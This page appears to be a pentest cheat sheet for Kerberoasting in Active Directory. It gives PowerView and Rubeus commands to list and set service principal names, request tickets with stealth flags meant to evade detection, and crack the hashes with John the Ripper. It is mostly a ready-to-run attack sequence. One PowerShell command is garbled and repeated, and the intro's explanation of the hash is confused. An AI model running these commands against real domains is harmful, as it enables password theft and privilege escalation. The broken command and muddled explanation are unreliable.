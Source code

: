 # Kerberoast

In a Kerberoast attack, the attacker requests a Kerberos session ticket (TGS)  to retrieve the service account's NTLM hash, which is partially encrypted with the service account's hash. \
This hash is then cracked offline to extract the service account's password.\


## SPNs

### Find SPNs

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -SPN
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADUser -Filter {Servicer -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalNameGet-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalNameGet-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName
```
{% endtab %}
{% endtabs %}

## Set SPNs

With enough rights (GenericAll/GenericWrite), a target user's SPN can be set

{% tabs %}
{% tab title="PowerView" %}
```powershell
# Find Permissions - for example RDPUsers group
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Set SPN
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}

```
{% endtab %}
{% endtabs %}

## TGS

```powershell
# try to downgrade to RC4-HMAC and get hashes
Rubeus.exe kerberoast 

# to avoid detections look for Kerberoastable accounts that only support RC4_HMAC
Rubeus.exe kerberoast /rc4opsec

# Specific SPN - more stealth
Rubeus.exe kerberoast /user:svcadmin  /rc4opsec

# usefull flags
/outfile:hashes.txt # output the hashes into file
/simple # hashes are output in the console one per line
/nowrap # results will not be line wrapped
/stats # will output statistics about kerberoastable users found
```

## Crack

```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10kworst-pass.txt C:\AD\Tools\hashes.txt
```

